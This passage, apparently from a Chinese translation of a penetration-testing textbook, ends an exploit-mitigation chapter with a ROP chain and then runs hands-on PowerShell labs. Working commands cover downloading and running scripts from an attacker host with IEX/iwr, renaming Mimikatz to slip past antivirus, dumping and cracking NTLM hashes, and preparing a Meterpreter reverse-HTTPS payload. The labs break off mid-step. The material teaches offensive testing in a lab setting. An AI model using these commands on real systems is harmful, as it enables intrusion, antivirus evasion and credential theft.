a03c7540 - put delta into eax [-> put 0x00000040 into edx]
7727b601 - ADD EAX,5FC3B800 # POP ESI # POP EBX # RETN 0x08 [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x2b801
41414141 - Filler
41414141 - Filler
7728da04 - XCHG EAX,EDX # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x3da04
41414141 - Filler
41414141 - Filler
41414141 - Filler
7729b1aa - POP ECX # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x4b1aa
7733273d - &Writable location [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0xe273d
772aff35 - POP EDI # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x5ff35
77299dc2 - RETN (ROP NOP) [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x49dc2
77315946 - POP EAX # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0xc5946
90909090 - nop
77256173 - PUSHAD # ADD EAX,8B5E5F00 # RETN [urlmon.dll] @ Base: 0x77250000 + RVA Offset: 0x6173
```

此时，我们只需修复之前描述的那个ROP小工具，然后将其与另一个能控制指令指针的漏洞结合起来。这留给读者作为练习，作者强烈建议查看之前提到的Claudio Moletta的工作。

## 摘要

本章简要介绍了几种常见的利用缓解措施：DEP和ASLR。然后，我们取了第13章中的SSH利用程序，并使用Mona生成的ROP链对其进行了修改，以禁用DEP，该ROP链通过使用未重定位模块来绕过ASLR。最后，我们详细介绍了通过使用Ivan Fratric发现的IE 11中的内存泄漏漏洞来实现完整ASLR绕过的方法。我们将其武器化为一个工作示例，在所有模块都已重定位的情况下绕过DEP。如今，此类技术非常标准，随着缓解措施的改进，将需要新的技术。

## 延伸阅读

“Windows 10 缓解措施改进” https://www.blackhat.com/docs/us-

## 参考文献

- 1. skape and Skywing, “绕过Windows强制执行的数据执行保护,” 2005年10月2日, www.uninformed.org/?v=2&a=4&t=txt.
- 2. Ken Johnson和Matt Miller, “Windows 8中利用缓解措施的改进,” BlackHat, 2012年8月, media.blackhat.com/bh-us-12/Briefings/M_Miller/BH_US_12_Miller_Exploit_Mitigation_Slides.pdf.
- 3. Microsoft, “Microsoft安全情报报告，第12卷,” MSDN, 2011年12月, www.microsoft.com/en-us/download/confirmation.aspx?id=29569.
- 4. Swiat, “超越EMET,” TechNet, 2016年11月, https://blogs.technet.microsoft.com/srd/2016/11/03/beyond-emet/.
- 5. Ivan Fratric, “Microsoft IE: textarea.defaultValue内存泄露,” blog.chromium.org, 2017年3月, https://bugs.chromium.org/p/project-zero/issues/detail?id=1076.
- 6. Claudio Moletta, “适用于Windows 7 x64的IE11利用程序,” Redr2e, 2017年7月, https://redr2e.com/cve-to-exploit-cve-2017-0037-and-0059/.
- 7. Ivan Fratric, “Microsoft Edge和IE：HandleColumnBreakOnColumnSpanningElement中的类型混淆,” blog.chromium.org, 2017年2月, https://bugs.chromium.org/p/project-zero/issues/detail?id=1011.
- 8. anyonc0, “Document.readyState,” Mozilla开发者网络, 2017年5月, https://developer.mozilla.org/en-US/docs/Web/API/Document/readyState.

## PowerShell 利用

大多数企业系统仍基于Windows，因此掌握Windows系统中可用的工具非常重要。PowerShell是其中最强大的工具之一。在本章中，你将了解PowerShell为何如此强大，以及我们如何将其作为利用工具包的一部分来使用。

在本章中，我们将介绍以下主题：

- 为什么使用PowerShell
- 加载PowerShell脚本
- 使用PowerShell创建Shell
- PowerShell后利用

### 为什么使用PowerShell

虽然PowerShell语言对Windows系统自动化是一件福音，但它也为黑客提供了便利。PowerShell以编程方式让我们几乎可以访问所有Windows功能，并且可扩展，可用于管理Active Directory、电子邮件系统、SharePoint、工作站等。PowerShell还让我们从脚本角度访问.NET库，使其成为Windows环境中最灵活的工具之一。

### 利用本地工具

当我们谈论“利用本地工具”时，是指使用系统上已存在的工具来推进我们的利用。这很有价值，因为每当我们向系统添加东西时，就会增加被发现的可能性。不仅如此，当我们在系统上留下工具时，这会暴露我们的战术、技术和程序（TTPs），从而更容易在其他系统上发现我们的活动。当我们利用本地工具时，可以留下更少的痕迹，并限制我们在系统间移动所需的工具。

PowerShell作为系统上已存在的工具非常有用，因为它让我们可以轻松编写脚本，并且包含.NET集成，因此几乎任何可以用.NET编写的东西都可以用PowerShell编写。这意味着我们可以超越基本脚本，直接与内核函数等进行交互，这通常需要使用单独的程序才能实现的额外灵活性。

PowerShell的主要好处之一是它可以使用Internet Explorer选项，因此代理支持等功能已内置于PowerShell中。因此，我们可以使用内置Web库远程加载代码，这意味着我们不需要将任何代码下载到目标系统。因此，当有人查看文件系统时间线时，这些从网站拉取的操作不会显示出来，这使我们能够更加隐蔽。

### PowerShell 日志记录

在早期版本的PowerShell（v4.0之前）中，只有少数几个日志选项可用。这使我们在加载PowerShell时可以运行而不产生大量日志警报，并且使取证人员很难弄清楚我们做了什么。真正显示的日志仅仅是PowerShell已加载这一事实。但是，在较新版本的PowerShell中，有更多选项可用于增加PowerShell日志记录。因此，针对最新Windows版本可能比旧版本泄露更多关于你正在做的事情的信息。


注意 我们只介绍了PowerShell日志记录中可能影响黑客检测的少数几个方面。有关更多信息，我们添加了来自FireEye的参考，更深入地介绍了不同的选项并解释了如何启用它们。1

### 模块日志记录

模块日志记录启用了有关脚本如何加载以及执行了什么的基本信息的多个功能。这包括加载了哪些模块和变量，甚至一些脚本信息。此日志记录在运行PowerShell脚本时会大大增加详细程度，对管理员来说可能会令人不知所措。自PowerShell v3.0起即可使用模块日志记录，但默认未启用，因此需要在系统上启用组策略对象（GPO）才能获取此日志。

虽然这种日志记录增加了对运行内容的可见性，但大部分情况下它并不提供实际运行的代码。因此，对于取证调查，此级别的日志记录仍然不足。不过，它会提示调查人员你所做的事情的类型，尽管具体细节可能不会被记录。

### 脚本块日志记录

脚本块日志记录用于记录脚本块何时执行，这可以更深入地了解正在执行的内容。从PowerShell v5.0开始，脚本块日志记录提供了大量关于潜在可疑事件的数据，为取证人员提供线索。

记录的项目包括使用encodedcommand选项启动的脚本以及执行的任何基本混淆。因此，启用脚本块日志记录后，防御人员可能会对你正在做的事情有一些额外的了解。与模块日志记录相比，这是防御人员更好的解决方案，因为它从取证角度突出了你可能关心的事项，而不会造成那么大的日志解析负担。


## PowerShell 可移植性

PowerShell 的一个不错的特性是，模块非常可移植，可以以多种不同的方式加载。这使我们有能力加载系统安装的模块以及其他位置的模块。我们还可以从 Server Message Block (SMB) 共享以及 Web 加载模块。

为什么能够从这些远程位置加载如此有价值？我们希望尽可能少留下痕迹，并且希望尽可能少重复工作。这意味着我们可以将经常使用的项目留在 SMB 共享上，甚至是网站上，然后从那里引用它们。因为脚本只是文本，所以我们不必担心二进制或类似文件类型的块。我们还可以混淆代码，然后实时对其进行解码，这可能使绕过杀毒软件（AV）变得更容易。

因为脚本只是文本，我们可以将其包含在几乎任何地方。经常，像 GitHub 这样的代码网站对于这种活动很方便，因为这些网站有许多与业务相关的用途。我们可以将脚本包含在存储库中，或者作为基本的 gist 命令，我们从 PowerShell 环境中加载它们以引导其他活动。PowerShell 甚至可以使用用户的代理设置，因此这是在环境中建立持久性的绝佳方式。

## 加载 PowerShell 脚本

在使用 PowerShell 进行任何利用操作之前，你需要知道如何执行脚本。在大多数环境中，未签名的 PowerShell 脚本默认不被允许。我们将查看这种行为，以便你可以识别它，然后我们将探讨如何绕过它，这样你就可以引导任何想要运行的代码。

## Lab 15-1：失败条件

在探讨如何绕过安全性之前，我们应该先看看安全性在实际运行中是如何工作的。为此，我们将在第 10 章设置的 Windows 10 机器上构建一个非常简单的脚本，然后尝试执行此脚本。对于我们的脚本，我们只是要创建 C:\ 根目录的目录列表。首先，我们需要以管理员身份打开命令提示符，然后运行以下代码：

```
c:\Users\User\Desktop>echo dir C:\ > test.ps1
c:\Users\User\Desktop>powershell .\test.ps1
.\test.ps1 : File C:\Users\User\Desktop\test.ps1 cannot be loaded because
running scripts is disabled on this system.
For more information, see about_Execution_Policies at
http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\test.ps1
+ ~~~~~~~~~~
+ CategoryInfo          : SecurityError: (:) [], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess
```

你可以看到，我们的 test.ps1 脚本执行被阻止了，因为系统上禁用了脚本运行。让我们看看当前的执行策略是什么：

```
c:\Users\User\Desktop>powershell -command Get-ExecutionPolicy
Restricted
```

这显示当前执行策略是“受限”。表 15-1 详细说明了每个可能执行策略的功能。

| 策略 | 说明 |
|---|---|
| Restricted | 只能运行系统 PowerShell 命令。运行自定义命令的唯一方式是通过交互模式。 |
| AllSigned | 任何脚本若由受信任的发布者签名即可运行。这允许企业和第三方为其脚本签名以使其能够运行。 |
| RemoteSigned | 已下载的脚本只有在由受信任的发布者签名时才能运行。 |
| Unrestricted | 无限制。无论脚本从何处获取或以何种方式获取，均允许运行。 |

表 15-1 PowerShell 执行策略

让我们尝试将执行策略更改为 Unrestricted，然后再次运行我们的 test.ps1 脚本：

```
c:\Users\User\Desktop>powershell -com Set-ExecutionPolicy Unrestricted
c:\Users\User\Desktop>powershell -command Get-ExecutionPolicy
Unrestricted
c:\Users\User\Desktop>powershell .\test.ps1
Directory: C:\
```

如你所见，一旦我们将策略更改为 Unrestricted，脚本就能正常运行。根据表 15-1，RemoteSigned 也应该可以。让我们试试：

```
c:\Users\User\Desktop>powershell -com Set-ExecutionPolicy RemoteSigned
c:\Users\User\Desktop>powershell -command Get-ExecutionPolicy
RemoteSigned
c:\Users\User\Desktop>powershell .\test.ps1
Directory: C:\
```

RemoteSigned 策略也有效。理论上，我们可以将执行策略重置为这两个值中的任何一个。不幸的是，在许多环境中，此值由组策略强制执行。在这种情况下，更改策略并不那么容易。因此，让我们像这里所示的那样将值设回 Restricted，我们将在整个剩余章节中启用最严格的控制：

```
c:\Users\User\Desktop>powershell -com Set-ExecutionPolicy Restricted
```

## Lab 15-2：在命令行中传递命令

在 Lab 15-1 中，我们从命令行执行了多个 PowerShell 命令。在本实验中，我们将探讨如何执行更复杂的命令。在之前的示例中，你可以看到 -command 选项可用于在命令行中传递命令；但是，许多 PowerShell 选项可以缩写。在这种情况下，我们可以只使用 -com，如这里所示，以节省一些输入：

```
c:\Users\User\Desktop>powershell -com Get-WmiObject win32_computersystem
```

| 域 | WORKGROUP |
|---|---|
| 制造商 | VMware, Inc. |
| 型号 | VMware Virtual Platform |
| 名称 | DESKTOP-KRB3MSI |
| 主要所有者 | Windows User |
| 总物理内存 | 8694255616 |

在这里，我们能够使用 PowerShell 发出简单的 WMI 查询，并且无需在查询周围添加额外的引号。对于基本查询，这工作正常；但是，对于更复杂的查询，我们可能会遇到问题。让我们看看当我们尝试获取系统所有者的更多信息时会发生什么：

```
c:\Users\User\Desktop>powershell -com Get-WmiObject win32_computersystem | select Username
'select' is not recognized as an internal or external command,
operable program or batch file.
```

你可以看到，我们不能使用管道字符在一个方法和另一个方法之间传递数据，因为它被操作系统解释。绕过这一点的最简单方法是使用双引号，如下所示：

```
c:\Users\User\Desktop>powershell -com "Get-WMIObject win32_computersystem | select Username"
```

```
Username
--------
DESKTOP-KRB3MSI\User
```

这次，管道字符没有被操作系统解释，因此我们可以从 WMI 查询的输出中仅获取用户名信息。对于简单的命令，这工作良好，如果我们只执行几个这样的命令，将它们添加到批处理脚本中并从那里运行也很容易。

## Lab 15-3：编码命令

当我们处理更复杂的任务时，不必担心格式是件好事。PowerShell 有一个方便的模式，允许我们传入 Base64 编码的字符串作为要运行的脚本——只要脚本不太长。Windows 命令行命令的总长度约为 8,000 个字符，这就是你的限制。

我们需要做一些更改来创建编码命令。首先，PowerShell 的 encodedcommand 选项接受 Base64 编码的 Unicode 字符串，所以我们需要先将文本转换为 Unicode，然后将其编码为 Base64。为此，我们需要一种简便的方法将文本转换为 Base64 编码。虽然我们可以使用 Kali 上已有的工具来完成此操作，但我们将使用我最喜欢的工具包之一，由 Eric Monti 开发的 Ruby BlackBag。这个 Ruby gem 包含大量编码和解码工具，可帮助进行恶意软件分析和黑客攻击。首先，我们需要在使用之前安装它：

```
root@kali:~/Ch15# gem install rbkb
Fetching: rbkb-0.7.2.gem (100%)
Successfully installed rbkb-0.7.2
Parsing documentation for rbkb-0.7.2
Installing ri documentation for rbkb-0.7.2
Done installing documentation for rbkb after 1 seconds
1 gem installed
```

安装此工具包后，它不仅添加了 Ruby 功能，还创建了一些助手脚本——其中一个称为 b64，一个 Base64 转换工具。接下来，我们将使用上一个实验中使用的相同命令，并将其转换为与 PowerShell 兼容的 Base64 字符串：

```
root@kali:~/Ch15# echo -n "Get-WMIObject win32_computersystem | select Username"
| iconv -f ASCII -t UTF-16LE | b64
RwB1AHQALQBQAEUAbABrAHQAagB0AGUAbQBQAQAHwIA1BzAGUAbAB1AGMAZQ
BzAHk
AcwB0AGUAbQBQAgAHwIA1BzAGUAbAB1AGMAZQ=
```

在这里，我们使用带有 -n 选项的 echo 来打印出 PowerShell 命令，而不加入换行符。接下来，我们将其传递给 iconv，一个字符集转换器，它会将我们的 ASCII 文本转换为 UTF-16LE，即 Windows Unicode 格式。最后，我们将所有这些传递给 b64，如下所示。它输出的字符串就是我们将与 PowerShell 一起使用的字符串。


```powershell
c:\Users\User\Desktop>powershell -enc RwBlAHQALQBXAE0ASQBPAAGIAagBlAGMAdAAgAHcAaQBuADMAMgBfAGCAMbwBtAHPAAdQB0AGUAcgBzAHkAcwB0AGUAcwAABzAGUAbAB1AGCAMGAdAAgAFUAcwBwAIhTAbgBhAG0AZQA=
Username
--------
DESKTOP-KRB3MSI\User
```

您可以看到，当我们使用 -enc 选项传递字符串时，会得到预期的输出。现在，我们可以构建更复杂的脚本，并在命令行上传递整个脚本，从而无需担心脚本执行限制。

## Lab 15-4: 通过 Web 进行引导

对于复杂脚本，对其编码不一定总是我们的最佳选择。我们的另一种选择是将脚本放在网站上，加载脚本，然后将其引导到我们的代码中。PowerShell 中有两个函数可帮助我们完成此操作：Invoke-Expression 和 Invoke-WebRequest。

Invoke-WebRequest 会访问网页并返回页面内容。这样，我们就可以在 Internet 上发布包含代码的页面，然后从 PowerShell 内部获取它。该函数默认使用 IE 引擎，而我们的 Windows 10 计算机没有该引擎，因此我们需要使用一种变通方法，以确保它能够获取网页。我们可以使用 -UseBasicParsing 选项告诉函数不要尝试解析结果，而是直接将其返回给我们。

Invoke-Expression 函数会对传递给它的代码进行求值。我们可以从文件加载代码，然后通过 stdin 或其他选项传递它。不过，攻击者使用的最常见方法之一是将 Web 请求的输出传递给 Invoke-Expression，这样他们就可以在不必担心脚本阻止的情况下引导更大的程序。

首先，让我们将命令复制到 Web 根目录下的文件中，然后确保 Apache 正在运行：

```bash
root@kali:~/Ch15# echo "Get-WMIObject win32_computersystem |
select Username" > /var/www/html/t.ps1
root@kali:~/Ch15# service apache2 start
```

我们的文件名为 t.ps1，因为我们希望输入尽可能少的内容。在 Kali（本示例中为 192.168.1.92）上运行 Web 服务器，且代码位于 t.ps1 中的情况下，我们可以通过 Windows 上的 PowerShell 命令行执行代码，而无需担心使用 encodedcommand 选项：

```powershell
c:\Users\User\Desktop>powershell -com ^
IEX (iwr -UseBasicParsing http://192.168.1.92/t.ps1)
Username
--------
DESKTOP-KRB3MSI\User
```

在此，我们将两个命令链接在一起，以便从 Kali 机器拉取文件并执行它。这与本地运行的输出相同，并且我们在尝试执行脚本之前遇到的那些错误消息也未再出现。

我们也可以使用通用命名约定 (UNC) 路径来完成同样的操作。在本节实验中，我们将设置 Samba，以便可以访问 Web 目录。但首先，让我们确保 Kali 中已设置 Samba：

```bash
# apt-get install samba
```

安装 Samba 后，将以下内容添加到 /etc/samba/smbd.conf 中：

```ini
[ghh]
comment = R/W Share
browseable = yes
path = /var/www/html/
guest ok = yes
read only = no
create mask = 0777
```

最后，我们可以启动 Samba 服务：

```bash
root@kali:~# service smbd restart
root@kali:~# smbclient -L localhost
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
```

| 共享名 | 类型 | 注释 |
| --- | --- | --- |
| print$ | 磁盘 | 打印机驱动程序 |
| share | 磁盘 | 读写共享 |
| ghh | 磁盘 | 读写共享 |
| IPC$ | IPC | IPC 服务 (Samba 4.7.0-Debian) |

正在使用 SMB1 重新连接以获取工作组列表。

| 服务器 | 注释 |
| --- | --- |

服务启动后，我们使用 smbclient 创建共享列表以验证共享是否已成功添加。设置好共享后，现在可以通过 UNC 路径引用同一个脚本。不使用命令行，让我们启动不带任何命令行选项的 PowerShell 可执行文件并尝试一下：

```powershell
C:\Users\User>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
PS C:\Users\User> iex( iwr -usebasicParsing \\192.168.1.92\ghh\t.ps1 )
```

```
Username
--------
DESKTOP-KRB3MSI\Users
```

在此，我们使用了相同的基本方法，但使用 UNC 路径而非 URL。这为我们提供了几种在不更改 PowerShell 策略的情况下在计算机上执行代码的方式。

## 使用 PowerSploit 进行利用和事后利用

PowerSploit 是一组工具集，旨在帮助渗透测试人员在环境中立足并提权。这些工具已包含在其他框架中，例如 PowerShell Empire 和社会工程学工具包 (SET)。这些工具可帮助我们建立 shell、向进程注入代码、检测和缓解 AV 等等。一旦我们在某台计算机上建立了访问权限，这些工具就可以帮助我们提权并转储关键系统信息。

了解这些工具如何与我们其余的工具集协同工作，将帮助我们获取并维持对计算机的访问权限，以及在整个域中传播。在本节中，我们将介绍 PowerSploit 套件中的一些有用工具，并使用它们在不向系统投放任何额外工具的情况下建立立足点。

### Lab 15-5: 设置 PowerSploit

本章前面我们介绍了在 PowerShell 中运行脚本的不同方法。在本章的这一部分中，我们需要设置 PowerSploit 以便轻松访问它。因为我们已将 SMB 共享映射到 Web 根目录，所以只需从 GitHub 下载 PowerSploit 并设置它即可。

首先，我们将克隆 PowerSploit 仓库。为此，我们需要确保已安装 git：

```bash
# apt-get install git
Reading package lists... Done
Building dependency tree
Reading state information... Done
git is already the newest version (1:2.14.2-1).
```

在示例中，git 应该已经存在，但如果没有，请立即安装。接下来，我们将进入 Web 根目录并下载 PowerSploit：

```bash
root@kali:~# cd /var/www/html
root@kali:/var/www/html# git clone \
https://github.com/PowerShellMafia/PowerSploit.git ps
Cloning into 'ps'...
remote: Counting objects: 3075, done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 3075 (delta 1), reused 2 (delta 1), pack-reuse 3070
Receiving objects: 100% (3075/3075), 10.43 MiB | 5.60 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
```


警告 有些在线教程会让你使用 raw.githubusercontent.com 网站直接从 GitHub 访问 PowerSploit 和其他利用代码中的文件。这非常危险，因为你并不总是知道该代码的状态，如果你没有测试过它，可能会在目标上运行破坏性的东西。始终克隆仓库，并在目标系统上运行之前先在虚拟机上测试你要运行的脚本，这样你、你的客户和你的律师才不会感到意外。

输入长 URL 并不有趣，因此我们进入 Web 根目录，将 PowerSploit 仓库克隆到名为 "ps" 的目录中。之所以命名为 ps 而不是更长的名称，是因为我们希望 URL 越小越好，以便在目标系统上更容易正确输入。我们可以遍历所有子目录并重命名每个脚本，但这不切实际。

当我们 cd 进入 ps 目录时，会看到一些文件和目录结构。让我们概览一下每个目录中可以找到的内容：

```bash
root@kali:/var/www/html# cd ps
root@kali:/var/www/html/ps# ls
AntivirusBypass Mayhem PowerSploit.pssproj Recon
CodeExecution Persistence PowerSploit.sln ScriptModification
Exfiltration PowerSploit.psd1 Privesc Tests
LICENSE PowerSploit.psm1 README.md
```

AntiVirusBypass 子目录包含脚本，可帮助我们确定二进制文件中的哪个位置可能被杀毒软件 (AV) 识别为恶意软件。这里的脚本可帮助将二进制文件拆分为碎片，然后将这些碎片通过杀毒软件扫描。然后，当您将范围缩小到极限时，可以识别二进制文件中需要更改以绕过 AV 签名的字节。

CodeExecution 子目录包含不同的实用程序，用于将 shellcode 加载到内存中。这些技术包括 DLL 注入、向进程注入 shellcode、反射注入，以及使用 Windows 管理规范 (WMI) 进行远程主机注入。本章稍后我们将介绍其中一些技术，作为在不使用文件的情况下将 Metasploit shellcode 注入系统的一种方式。

当您想要从系统获取信息时，可以查看 Exfiltration 文件夹。此文件夹包含可帮助您复制锁定文件、从 Mimikatz 获取数据等工具。其他亮点还包括按键记录器、屏幕截图工具、内存转储工具以及用于卷复制服务 (VSS) 的工具。这些工具无法帮助您将数据从系统中获取，但非常适合生成值得外泄的数据。

如果您想实施焦土政策，Mayhem 文件夹适合您。此目录中的脚本将用您选择的消息覆盖系统的主引导记录 (MBR)。在许多情况下，这需要从备份还原系统，因此如果您的目标包含您喜欢的内容，请远离此目录。

Persistence 目录包含可帮助您维持对系统访问权限的工具。可用多种持久化机制，包括注册表、WMI 和计划任务。这些工具可帮助您创建提升级和用户级持久化；这样，无论您需要什么级别的访问权限，都可以轻松在目标系统上维持持久性。

PrivEsc 目录包含可帮助您获取提升访问权限的工具。它们从


从帮助你识别可被利用的弱权限的实用程序，到能为你完成部分工作的工具。我们将在本章后面介绍如何使用其中一些工具。

尽管它无法以任何方式帮助利用系统，但 Recon 目录包含可帮助你更好地了解所工作环境的工具。这些工具适合于收集基本信息、端口扫描以及获取关于域、服务器和工作站的信息。它们可以帮助你确定要针对的目标，也可以帮助你为环境中存在的内容建立配置文件。

## Lab 15-6: 通过 PowerShell 运行 Mimikatz

PowerSploit 的一项惊人功能是能够通过 PowerShell 调用 Mimikatz。为此，我们需要从 Privesc 文件夹中调用 Invoke-Mimikatz.ps1 脚本。让我们试试看：

```
PS C:\Users\User> iex (iwr -UseBasicParsing ^
http://192.168.1.92/ps/Exfiltration/Invoke-Mimikatz.ps1 )
```

运行它时没有弹出错误消息，但几秒钟后，我们看到一个 Windows Defender 弹出窗口，指示该脚本已被标记为恶意。加载脚本后尝试运行 Invoke-Mimikatz 时，它未定义。因此，我们需要做一些工作来使该函数生效。我们将使用 Black Hills Security 完成的部分工作来绕过 AV 并使脚本加载。2 让我们从在 Kali 的 Web 根目录（/var/www/html/ps/Exfiltration）中删除一些空格和注释开始：

```
# sed -i -e '//#/,/#>/c\' Invoke-Mimikatz.ps1
# sed -i -e 's/^[[[:space:]]]*.*.$/g' Invoke-Mimikatz.ps1
```

现在我们可以回到 Windows 机器上再试一次：

```
PS C:\Users\User> iex (iwr -UseBasicParsing `
http://192.168.1.92/ps/Exfiltration/Invoke-Mimikatz.ps1 )
iex : At line:1 char:1
+ function Invoke-Mimikatz
+
~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At line:1 char:1
+ iex (iwr -UseBasicParsing http://192.168.1.92/ps/Exfiltration/Invoke- ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression],
ParseException + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.
Commands.InvokeExpressionCommand
```

这次我们走得更远了一点，但仍然看到脚本被阻止了。我们需要做一些额外更改才能使其正常工作。在 Kali 中，让我们更改一下函数名称，看看能否通过这种方式愚弄安全控制：

```
# sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
# sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
```

这里，我们重命名了主命令以及其中一个子命令。这应该能让我们绕过基于函数名称将脚本标记为恶意的 AV。让我们再试一次：

```
PS C:\Users\User> iex (iwr -UseBasicParsing http://192.168.1.92/ps/Exfiltration/Invoke-Mimikatz.ps1 )
PS C:\Users\User> Invoke-Mimidogz

.####.  mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
## \ / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
'## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
'####' with 20 modules * * */
```

```
mimikatz(powershell) # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
```

```
mimikatz(powershell) # exit
Bye!
```

我们的脚本加载了，并且我们能够运行 Invoke-Mimidogz，但默认执行没有获取到任何内容。默认情况下，它尝试从内存中提取凭据，而 Windows 10 会阻止此操作。不过，我们可以从本地安全机构子系统服务（LSASS）获取信息。我们需要带 -command 标志运行 Invoke-Mimidogz，以指示它转储 lsadump::sam：

```
PS C:\Users\User> Invoke-Mimidogz -command lsadump::sam
```

```
.####.  mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
## \ / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
'## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
'####' with 20 modules * * */
```

```
mimikatz(powershell) # lsadump::sam
Domain : DESKTOP-KRB3MSI
SysKey : a34b3d05aec244baf6e966715bd6b6c9'
ERROR kuhl_m_registry_OpenAndQueryWithAlloc ; kuhl_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kuhl_m_registry_RegOpenKeyEx
SAM Accounts (0x00000005)
```

这里我们可以看到，我们的权限不足以访问 LSASS 拥有的文件，因此需要提权。幸运的是，PowerSploit 也有一个工具可以让我们做到这一点。我们将使用 Privesc 中的 Get-System.ps1 工具获取 SYSTEM 令牌，以便访问 SAM 文件：

```
PS C:\Users\User> iex (iwr -UseBasicParsing `
http://192.168.1.92/ps/Privesc/Get-System.ps1 )
PS C:\Users\User> Get-System
Running as: WORKGROUP\SYSTEM
PS C:\Users\User> Invoke-Mimidogz -command lsadump::sam
```

```
.#######.  mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. "A La Vie, A L'Amour"
## \ / ## /* * *
## \ / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
'## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
'######' with 20 modules * * */
```

```
mimikatz(powershell) # lsadump::sam
Domain : DESKTOP-KRB3MSI
SysKey : a34b3d05aec244baf6e966715bd6b6c9
Local SID : S-1-5-21-3929919845-4074983535-3314702914

SAMKey : cb8862eca7c79e1cc72f3309745d07a

RID : 000001f4 (500)
User : Administrator
LM :
NTLM :

RID : 000003e9 (1001)
User : User
LM :
NTLM : 64f12cddaa88057e06a81b54e73b949b
```

这里我们从 PowerSploit 的 Privesc 目录加载 Get-System.ps1 文件。然后，当我们运行 Get-System 时，它会为 SYSTEM 用户获取一个令牌。SYSTEM 用户有能力通过 LSA 访问 SAM 文件。这次，当我们运行 Invoke-Mimidogz 脚本并请求 lsadump::sam 时，操作成功。我们可以看到 User 的 NTLM 哈希。我们可以复制它，然后带到我们的 Kali 机器上，使用 John the Ripper 进行破解：

```
# echo 64f12cddaa88057e06a81b54e73b949b > creds.txt
# john --format=NT creds.txtUsing default input encoding: UTF-8
Rules/masks using ISO-8859-1
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1         (?)
1g 0:00:00:00 DONE 2/3 (2017-11-09 17:46) 14.28g/s 53142p/s
53142c/s 53142C/s woodrow..Secret
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

当我们针对 creds.txt 文件运行 John 时，我们看到 User 的密码是 Password1。我们已成功修改 Invoke-Mimikatz，使其不会被 AV 阻止，并运行了 Get-System 以获取 SYSTEM 令牌，从而可以使用 Mimikatz 转储 LSASS 进程中的凭据。我们仅使用 PowerShell 就完成了所有这些任务，因此系统上没有留下任何其他二进制文件。

## Lab 15-7: 使用 PowerSploit 创建持久 Meterpreter

在渗透测试期间，你可能需要做的一件事是创建持久后门。在这个实验中，我们将探讨如何使用 PowerSploit 加载 shellcode，以及如何使用 PowerSploit 使访问在重启后保持持久。该过程的第一步是确保你了解如何使用 PowerSploit 加载 Meterpreter。

我们将使用 CodeExecution 目录中的 Invoke-Shellcode 模块。我们还将使用 Metasploit 设置 Meterpreter 回调。让我们通过设置 Meterpreter 回调处理程序为该过程打基础。我们将使用 reverse_https 有效载荷。这种有效载荷最有可能避免被 AV 和其他安全控制检测到，因为它使用常见协议，并从目标网络内部向我们回连。

```
root@kali:~# msfconsole -q
msf > use multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(handler) > set LHOST 192.168.1.92
LHOST => 192.168.1.92
msf exploit(handler) > exploit
```

[*] 已在 192.168.1.92:8443 上启动反向 HTTPS 处理程序
[*] 正在启动有效载荷处理程序...

既然我们的回调已设置好，让我们生成与之配套的 shellcode。PowerSploit 模块采用 0x00 格式的 shellcode（而不是大多数语言使用的 \x00 约定）。我们将创建一些 shellcode，然后进行一些转换。我们使用 msfvenom 生成有效载荷，然后进行一些额外的脚本处理来清理它：

```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_https --format c \
LHOST=192.168.1.92 | tr -d "\n\"|" | sed -e 's/\\x/,0x/g' \
| cut -f 2- -d ','
```

生成有效载荷时，我们指定使用 C 格式。由于输出对我们来说看起来不正确，我们将使用 tr 从输出中删除换行符、双引号和分号。接下来，我们将每个 \x 出现替换为 ,0x，以便拥有分隔符以及每个十六进制字符前所需的 0x。最后，输出中会有变量声明和一个额外的逗号，因此我们将在该第一个命令处截断输出，并取其后的所有内容。我们将复制此 shellcode，然后切换到 Windows 机器，以普通用户而非管理员身份加载 PowerShell，并从 Web 服务器加载我们的 Invoke-Shellcode.ps1 文件：


```
C:\Users\User>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```

```
PS C:\Users\User> iex ( iwr -UseBasicParsing `
http://192.168.1.92/ps/CodeExecution/Invoke-Shellcode.ps1 )
